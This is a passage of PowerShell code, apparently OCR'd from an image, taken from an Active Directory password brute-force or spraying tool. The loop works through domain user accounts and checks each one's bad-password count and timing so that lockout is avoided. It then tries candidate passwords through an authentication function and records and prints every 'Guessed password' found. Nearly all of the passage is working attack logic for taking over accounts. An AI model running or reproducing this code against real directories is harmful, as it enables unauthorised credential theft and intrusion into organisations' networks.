 ```
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

```